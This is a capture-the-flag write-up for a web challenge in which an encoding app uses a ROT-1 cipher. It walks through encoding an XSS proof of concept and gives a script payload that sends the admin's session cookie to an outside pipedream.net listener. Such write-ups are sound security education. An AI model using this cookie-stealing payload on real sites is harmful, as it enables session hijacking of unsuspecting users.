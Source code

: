 # KFF

## Problem

```
This encoding application seems to have a massive oversight.

Can you exploit it and steal the Admins session?
```

We get a big lock image with two prompts that encode a message, one for viewing ourselves our encoded message and another one to send the encryped message to the admin. 
Smells like [XSS](https://owasp.org/www-community/attacks/xss/), doesn't it?

# Solution

Let's try to encode some messages. If we say `hello`, we receive `ifmmp`. It looks like we have a [ROT13](https://en.wikipedia.org/wiki/ROT13) variant cipher instead of an encoding, right?. 

![1](../images/kff_1.png)  

However, if we try with symbols, they also rotate, therefore we are talking about a variant of [ROT47](https://en.wikipedia.org/wiki/ROT13#Variants) encryption with a rotation we don't know yet.

![2](../images/kff_2.png)

We can use [Cyberchef](https://gchq.github.io/CyberChef/)'s ROT47 tool to play around with the ciphertext until we decrypt it:

![3](../images/kff_6.png)

We find the ciphertext being decrypted as ROT1 but what we actually need is the oposite to correctly encrypt our payload:

![4](../images/kff_7.png)

```;rbqhos=`kdqs'!Gdkkn}Vnqkc~!(;.rbqhos=``` equals ```<script>alert("Hello World!")</script>```

We finally discover the encryption is ROT-1 (ROT47(-48)). Let's try then to get some XSS working!



![5](../images/kff_4.png)




Now that we finally have our PoC working, we need to send the payload to the admin in order to steal their session cookie. We can do this with the following payload, where `document.location=<our website>?cookie=:` is the listening server we control and `document.cookie` is the cookie we want to steal from the admin:  

```
<script>document.location="https://enx0ouxtov1d1z8.m.pipedream.net?cookie="+document.cookie;</script>
```



![6](../images/kff_5.png)

[Go back to Web challenges](./)
